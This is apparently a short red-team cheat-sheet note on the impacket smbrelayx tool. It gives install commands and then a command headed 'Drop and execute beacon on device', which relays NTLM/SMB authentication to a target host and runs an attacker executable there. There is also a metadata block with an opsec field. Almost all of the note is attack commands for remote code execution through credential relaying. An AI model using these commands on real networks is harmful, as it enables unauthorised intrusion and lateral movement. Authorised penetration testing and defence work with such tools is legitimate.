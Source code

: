 # smbrelayx

## [[NTLM Relaying]]
1. Install
    ```bash
    pip3 install impacket
    git clone https://github.com/SecureAuthCorp/impacket
    ```
2. Drop and execute beacon on device
    ```bash
    cd impacket
    sudo python3 examples/smbrelayx.py -h 192.168.1.118 -e ~/smbexp.exe
    ```

```meta
requirements: 
results: 
opsec: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbrelayx.py
description: Relax SMB requests to target 
```